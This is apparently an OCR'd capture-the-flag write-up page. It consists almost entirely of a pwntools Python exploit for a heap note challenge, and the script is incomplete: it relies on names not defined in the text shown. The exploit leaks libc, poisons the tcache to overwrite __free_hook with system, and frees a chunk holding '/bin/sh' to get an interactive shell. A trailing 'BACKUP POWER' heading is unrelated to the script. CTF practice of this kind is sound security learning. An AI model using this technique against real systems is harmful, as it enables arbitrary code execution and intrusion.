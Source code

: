 ```python

def delete(opt, id):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'> ', str(opt).encode())
    p.sendlineafter(b'> ', str(id).encode())

def read(opt, id):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'> ', str(opt).encode())
    p.sendlineafter(b'> ', str(id).encode())

def edit(opt, id, data):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'> ', str(opt).encode())
    p.sendlineafter(b'> ', str(id).encode())
    p.sendlineafter(b'> ', data)

def leak():
    p.sendlineafter(b'> ', b'5')
    tmp = p.recvline()[0:14]
    return int(tmp, 16)

def main():
    libc_leak = leak()
    libc.address = libc_leak - 0x1ecbe0
    log.info("Libc base: " + hex(libc.address))

    create(rule)
    create(note)
    create(note)
    delete(note, 1)
    delete(note, 0)
    read(rule, 0)

    edit(rule, 0, p64(libc.sym['__free_hook']))
    create(note)
    create(note)
    
    edit(note, 1, p64(libc.sym['system']))
    edit(note, 0, b'/bin/sh\x00')

    delete(note, 0)

    p.interactive()

if __name__ == "__main__":
    main()
```
## BACKUP POWER
Updating...